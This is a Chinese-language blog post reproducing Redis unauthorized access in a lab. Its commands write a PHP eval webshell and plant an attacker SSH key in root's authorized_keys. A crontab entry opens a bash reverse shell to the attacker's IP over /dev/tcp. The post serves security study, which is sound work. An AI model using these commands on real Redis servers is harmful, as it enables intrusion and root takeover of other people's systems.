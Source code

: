 ```yaml
---
title: 漏洞复现-Redis未授权访问
tags: 
  - 漏洞复现
  - Redis
  - 未授权
  - 写shell
  - SSH公钥认证
categories: 漏洞复现
keywords: '漏洞复现,Redis,未授权,写shell,SSH公钥认证'
description: 漏洞复现-Redis未授权访问
cover: /images/14/7.png
date: 2020-11-29 11:37:12
---
```




# Redis概念
redis是一个key-value存储系统。和Memcached类似，它支持存储的value类型相对更多，包括string(字符串)、list(链表)、set(集合)、zset(sorted set --有序集合)和hash（哈希类型）。这些数据类型都支持push/pop、add/remove及取交集并集和差集及更丰富的操作，而且这些操作都是原子性的。在此基础上，redis支持各种不同方式的排序。与memcached一样，为了保证效率，数据都是缓存在内存中。区别的是redis会周期性的把更新的数据写入磁盘或者把修改操作写入追加的记录文件，并且在此基础上实现了master-slave(主从)同步。

Redis 是一个高性能的key-value数据库。 redis的出现，很大程度补偿了memcached这类key/value存储的不足，在部 分场合可以对关系数据库起到很好的补充作用。它提供了Java，C/C++，C#，PHP，JavaScript，Perl，Object-C，Python，Ruby，Erlang等客户端，使用很方便。
<!--more-->

# Redis未授权访问
redis 默认情况下，会绑定在 0.0.0.0:6379，，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的config 命令，可以进行写文件操作。

漏洞产生条件	
>1、	redis服务绑定在6379端口并且该端口可以被访问到
2、	没有设置密码认证（一般为空），可以免密码远程登录redis服务。
# 环境准备
靶机：	
Centos7：192.168.229.157
![upload successful](/images/14/1.png) 
攻击机：	
Kali：192.168.229.128
![upload successful](/images/14/2.png)  
# 环境搭建
1、首先下载redis的压缩包	
```
wget http://download.redis.io/releases/redis-2.8.17.tar.gz
```
![upload successful](/images/14/3.png) 

2、解压压缩包，进入指定路径redis-2.8.17，进行安装
```
tar xzf redis-2.8.17.tar.gz
cd redis-2.8.17
make
```
![upload successful](/images/14/4.png) 

3、进入到src路径，将redis-server和redis-cli拷贝到/usr/bin目录下，后续方便直接启动redis服务器并且将redis-2.8.17目录下面的redis.conf拷贝到/etc下面。
```
cd src
cp redis-server /usr/bin
cp redis-cli /usr/bin
cp redis.conf /etc/redis.conf
```
![upload successful](/images/14/5.png) 

4、启动服务
```
redis-server /etc/redis.conf
```
![upload successful](/images/14/6.png) 


# 漏洞复现
## 写入webshell
1、首先尝试无密码连接redis，未报错表示连接成功
```
redis-cli -h 192.168.229.157
```
![upload successful](/images/14/7.png) 

2、写入webhsell
```
redis-cli -h 192.168.229.157
config set dir /home/
config set dbfilename 8.php
set webshell "<?php eval($_POST[1]);?>"
save
```
![upload successful](/images/14/8.png) 

3、在服务器查看文件，确实写入了webshell
![upload successful](/images/14/9.png) 


## 利用“公私钥”认证获得root权限

1、 kali攻击机未授权访问连接
```
redis-cli -h 192.168.163.157
keys *
```

![upload successful](/images/14/10.png) 

2、在攻击机中生成ssh公钥和私钥，密码设置为空（一路回车即可）
```
ssh-keygen -t rsa
```
![upload successful](/images/14/11.png) 

3、进入.ssh目录，将生成的公钥保存到1.txt
```
cd /root/.ssh
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > 1.txt
```
![upload successful](/images/14/12.png) 


4、将保存ssh的公钥1.txt写入redis（使用redis-cli -h ip命令连接靶机，将文件写入）
```
cat 1.txt | redis-cli -h 192.168.229.157 -x set crack
```
![upload successful](/images/14/13.png) 

5、使用 CONFIG GET dir 命令得到redis备份的路径
```
CONFIG GET dir
```
![upload successful](/images/14/14.png) 

6、更改redis备份路径为ssh公钥存放目录（一般默认为/root/.ssh）,并且修改上传公钥文件的名称为authorized_keys。
```
config set dir /root/.ssh
  这里设置目录时，可能存在(error) ERR Changing directory: No such file or directory
  这是因为root从来没有登录过，在被攻击机执行ssh localhost 即可
  (error) ERR Changing directory: Permission denied
  说明redis并不是以root启动的，在被攻击机重新使用sudo开启redis服务即可
CONFIG SET dbfilename authorized_keys
save
```
![upload successful](/images/14/15.png) 

查看攻击机也已经成功生成了公钥文件
![upload successful](/images/14/16.png) 

7、使用ssh免密码登录redis服务器
```
ssh -i id_rsa root@192.168.229.157
```
![upload successful](/images/14/17.png) 

## 利用计划任务反弹shell
1、首先kali机器进行开启监听
![upload successful](/images/14/18.png) 

2、使用redis通过crontab进行反弹shell
```
set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.229.128/4455 0>&1\n\n"
config set dir /var/spool/cron
config set dbfilename root
save
```
![upload successful](/images/14/19.png) 

3、查看反弹shell命令已经成功写入了
![upload successful](/images/14/20.png) 

4、攻击机也成功获取了shell
![upload successful](/images/14/21.png) 

